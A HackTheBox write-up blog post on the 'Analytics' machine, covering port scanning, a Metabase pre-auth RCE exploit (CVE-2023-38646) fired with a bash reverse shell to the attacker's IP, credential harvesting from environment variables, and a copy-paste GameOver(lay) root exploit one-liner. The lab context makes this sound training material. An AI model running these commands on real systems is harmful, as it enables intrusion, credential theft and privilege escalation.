 ```yaml
---
layout: post
title: Analytics writeup (HackTheBox)
author: wizarddos
category: Hacking
excerpt_separator: <!--more-->
---
```


Hi there - that's my first Hack The box writeup.
Today, I'll cover [Analytics](https://app.hackthebox.com/machines/569) box.

So, off we go
<!--more-->
## Recon
First - I started rustscan
```
$ rustscan -a $IP
```
And it gave me 2 ports `22` and `80` - let's enumerate further
```
$ nmap -sC -sV -oN scan.txt $IP -p22,80    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-25 15:14 CET
Nmap scan report for 10.10.11.233
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have also found a new domain - `http://analytical.htb/`
Add it to `/etc/hosts` with IP address 
```
$ sudo nano /etc/hosts
```
And then in new line
```
[Machine IP]      analytical.htb
```
Close editor with `Ctrl-X` and get to the site
## Website enumeration

In source code, we can see another subdomain - `data.analytical.htb`

Append it to `/etc/hosts` as well
```
$ echo "[Machine IP]    data.analytical.htb"
```

In there, we have **metabase** instance deployed
![Image of the login page](https://images.prismic.io/superpupertest/119ff6a6-3a33-47ba-a5ea-1fbe3c0ff516_metabase-login-page-in-browser.webp?auto=format&w=680&h=398.253&dpr=3)
(as for some reason, I can't access to this machine - Image comes from [Maddevs' writeup](https://maddevs.io/writeups/hackthebox-analytics/))
{: .subtext}

We don't need to brute-force the password - as there is one exploit for this particular version of metabase

**CVE-2023-38646**

You can get the exploit from [this Github repo](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

As _Usage_ section says
> The script needs the target URL, the setup token and a command that will be executed. The setup token can be obtained through the /api/session/properties endpoint. Copy the value of the setup-token key.

So, we go to `http://data.analytical.htb/api/session/properties` and copy `setup-token` value

First, set up netcat listener so we can get reverse shell connection
```
$ nc -lvnp 2000
```
Then, we can utilize this exploit
```
$ python3 main.py -u http://data.analytical.htb -t [Your copied token] -c "bash -i 1>& /dev/tcp/[Your IP]/2000 0>&1"
```

When it's executed - in terminal with netcat, we should have operating shell

## Privilege escalation

We can't really run `sudo`, nor any `cronjobs` are present

Maybe enviromental variables?

```
$ env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d0ca4e533c16
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```

We have 2 interesting values
```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Actually, this credentials can be used to log into SSH and exit the container we are in
```
$ ssh metalytics@analytical.htb
```

So, inside SSH we can find `user.txt` file
```
cat user.txt
[REDACTED]
```

### Getting Root

This system is vulnerable to **GameOver(lay)** exploit

It consists of **CVE-2023-2640** and **CVE-2023-32629**

If you want to know more - check [CrowdStrike publication](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/) about it

Right now, we can exploit it with simple payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'
```

(I didn't add thath `$` by default - so you can copy it)

Then, we should have root - get the flag

```
# cat /root/root.txt
[REDACTED]
```

And, that's it
Machine Pwned

## Conclusion

I hope this walkthrough helped you - I actually liked hacking this machine

I've learned new exploits and overall pracised my enumeration skills

So, that's it - see you next time